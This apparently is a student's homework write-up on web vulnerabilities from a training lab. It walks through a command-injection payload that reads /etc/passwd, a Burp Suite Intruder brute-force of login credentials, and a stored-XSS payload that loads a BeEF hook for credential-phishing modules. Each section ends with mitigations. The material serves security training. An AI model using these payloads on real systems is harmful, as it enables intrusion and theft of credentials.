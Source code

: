 # Unit 15 Homework: Web Vulnerabilities and Hardening
## Prepared by Shamsul Chowdhury
---

## Web Application 1: Your Wish is My Command Injection
Access Vagrant and open a browser.

Launch Vagrant from GitBash and run the following command:

`cd ./Documents/web-vulns && docker-compose up`

Leave this page open and continue to the next step.

Open Chrome, navigate to the following web page:

![http://192.168.13.25](images/dvwa-home-page.PNG)

Log in with the following credentials:

User name: admin
Password: password
Select the Command Injection option from the left menus.

![command injection page ](images/commmand-injection-page.PNG)

Using the dot-dot-slash ../ method five times to design two payloads that will display the contents of the following files:

 `/etc/passwd`

 `8.8.8.8 && cat ../../../../../etc/passwd`

 ![](images/command-injection-etc-passwd.PNG)

 `/etc/passwd`

 `8.8.8.8 && cat ../../../../../etc/passwd`

 ![](images/command-injection-etc-hosts.PNG)

 ### Recommended mitigation strategies:
 - Server-side validation that does not allow selection of unintended files.​
 - Segregation of confidential files from the web server and accessible directories.
 - Permissions to restrict web server account accessibility.


## Web Application 2: A Brute Force to Be Reckoned With
Run this command sudo burpsuite in Vagrant command line.

Open Firefox which was already installed FoxyProxy [Foxy-Proxy](images/foxy-proxy.PNG) add-on extension in class activities.

![](images/bwapp-login.PNG)

In Burpsuite, I got following intercept data:

![](images/web-2-02-brute.PNG)

Send above Proxy intercept results to Intruder. 

Click Intruder tab;

Verify Target;

![](images/intruder-target.PNG)


Setup Positions, 

select attack type Cluster bomb;

Configure and add login and password as positions.

![](images/intruder-position.PNG)

Click Payloads tab, choose Payload type as Simple list;

Add login user ID from List of Administrators file into Payload set 1;

![](images/payload-1-admin-lists.PNG)

Add password from Breached list of Passwords file into Payload set 2;

![](images/payload-2-password.PNG)

Click `Start attack`

After analysis of intruder attack results, the login username/password combination of `tonystark` and `I am Iron Man` did result in a successful login. The page displays `Successful login! You really are Iron Man :)`.

![](images/tonystark-ironman.PNG)

### Recommended mitigation strategies:

Mitigations can include requiring complex `usernames` and `passwords`, using `multi-factored authentication`, and `enabling a lockout` after a certain amount of failed login attempts.

## Web Application 3: Where's the BeEF?


### **Step 1, Prepare Replicants website**

Inside Vagrant, go to this folder, run command: 
`~/Documents/web-vulns$ docker-compose up`

Go to this website: `http://192.168.13.25/vulnerabilities/xss_s/`

Reset db and login again. 
Username: `admin`
Password: `password`

### **Step 2, Setup BeEF**

On Vagrant, open a command line and run the following command: sudo beef

When prompted for a password, enter cybersecurity.

To access the BeEF GUI, right-click the first URL UI_URL: http://127.0.0.1:3000/ui/panel and select Open Link.

![](images/beef-setup-01.PNG)

When the BeEF webpage opens, login with the following credentials:

Username: `beef` 
Password: `feeb`

### **Step 3, Find BeEF hook and write payload**

```
BeEF hook: http://127.0.0.1:3000/hook.js

Payload: <script src="http://127.0.0.1:3000/hook.js"></script>
```
### **Step 4, Inject this payload**

One issue was found: in the message box field, there only has maxlength="50" in original source code, therefore we can not input the whole payload code.
![](images/payload-injection.PNG)

Solution: Right-clicking on web page and selecting "Inspecting the Element". Change as `maxlength="100"`, or just delete this code limit.


### **Step 5, A couple BeEf exploits**

Social Engineering >> Pretty Theft
![](images/pretty-theft.PNG)

Social Engineering >> Fake Notification Bar
![](images/fake-notification-bar.PNG)

Host >> Get Geolocation (Third Party)
![](images/get-geolocation-thirdparty.PNG)